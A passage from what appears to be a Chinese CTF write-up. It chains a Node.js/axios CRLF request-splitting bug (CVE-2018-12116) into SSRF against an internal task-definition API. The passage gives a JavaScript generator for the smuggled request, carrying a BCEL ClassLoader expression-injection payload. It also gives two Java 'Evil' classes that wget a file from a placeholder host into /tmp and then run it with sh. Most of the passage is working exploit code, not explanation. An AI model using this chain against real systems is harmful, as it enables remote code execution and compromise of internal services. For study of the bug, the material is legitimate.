 现在的问题怎么把payload打过去，gopher协议不能用了，现在考虑**CRLF** [CVE-2018-12116](https://www.cvedetails.com/cve/CVE-2018-12116/)

这里一个拓展就是漏洞本身是在http库产生的，但是依赖于它而新写的axios库依然没有过滤，所以构建好完美的通信之后，就可以开始拼接payload了。`\u{010D}\u{010A}`

下面用一个小脚本来生成。

```
paylaod=""
post_payload = '[\u{017b}\u{0122}name\u{0122}:\u{0122}$\u{017b}\u{0127}1\u{0127}.getClass().forName(\u{0127}com.sun.org.apache.bcel.internal.util.ClassLoader\u{0127}).newInstance().loadClass(\u{0127}'+paylaod+'\u{0127}).newInstance().class\u{017d}\u{0122},\u{0122}ownerEmail\u{0122}:\u{0122}test@example.org\u{0122},\u{0122}retryCount\u{0122}:\u{0122}3\u{0122},\u{0122}timeoutSeconds\u{0122}:\u{0122}1200\u{0122},\u{0122}inputKeys\u{0122}:[\u{0122}sourceRequestId\u{0122},\u{0122}qcElementType\u{0122}],\u{0122}outputKeys\u{0122}:[\u{0122}state\u{0122},\u{0122}skipped\u{0122},\u{0122}result\u{0122}],\u{0122}timeoutPolicy\u{0122}:\u{0122}TIME_OUT_WF\u{0122},\u{0122}retryLogic\u{0122}:\u{0122}FIXED\u{0122},\u{0122}retryDelaySeconds\u{0122}:\u{0122}600\u{0122},\u{0122}responseTimeoutSeconds\u{0122}:\u{0122}3600\u{0122},\u{0122}concurrentExecLimit\u{0122}:\u{0122}100\u{0122},\u{0122}rateLimitFrequencyInSeconds\u{0122}:\u{0122}60\u{0122},\u{0122}rateLimitPerFrequency\u{0122}:\u{0122}50\u{0122},\u{0122}isolationgroupId\u{0122}:\u{0122}myIsolationGroupId\u{0122}\u{017d}]'
net_ip = ""
console.log(encodeURI(encodeURI(encodeURI('http://0.0.0.0:3000/\u{0120}HTTP/1.1\u{010D}\u{010A}Host:127.0.0.1:3000\u{010D}\u{010A}\u{010D}\u{010A}POST\u{0120}/search?url=http://'+net_ip+':8080/api/metadata/taskdefs\u{0120}HTTP/1.1\u{010D}\u{010A}Host:127.0.0.1:3000\u{010D}\u{010A}Content-Type:application/json\u{010D}\u{010A}Content-Length:' + post_payload.length + '\u{010D}\u{010A}\u{010D}\u{010A}' + post_payload+ '\u{010D}\u{010A}\u{010D}\u{010A}\u{010D}\u{010A}\u{010D}\u{010A}GET\u{0120}/private'))))
```

然后把生成的复制粘贴就可以了。

```
public class Evil {
    public Evil() {
        try {
            Runtime.getRuntime().exec("wget http://xxx/a -O /tmp/demo");
        } catch (Exception e) {
            e.printStackTrace();
        }
 
    }
 
    public static void main(String[] args) {
    }
}
```

![image-20210416235101934](C:\Users\Dem0\AppData\Roaming\Typora\typora-user-images\image-20210416235101934.png)

![image-20210416235410606](C:\Users\Dem0\AppData\Roaming\Typora\typora-user-images\image-20210416235410606.png)

![image-20210416235418813](C:\Users\Dem0\AppData\Roaming\Typora\typora-user-images\image-20210416235418813.png)

```
public class Evil {
    public Evil() {
        try {
            Runtime.getRuntime().exec("sh /tmp/demo");
        } catch (Exception e) {
            e.printStackTrace();
        }
 
    }
 
    public static void main(String[] args) {
    }
}
```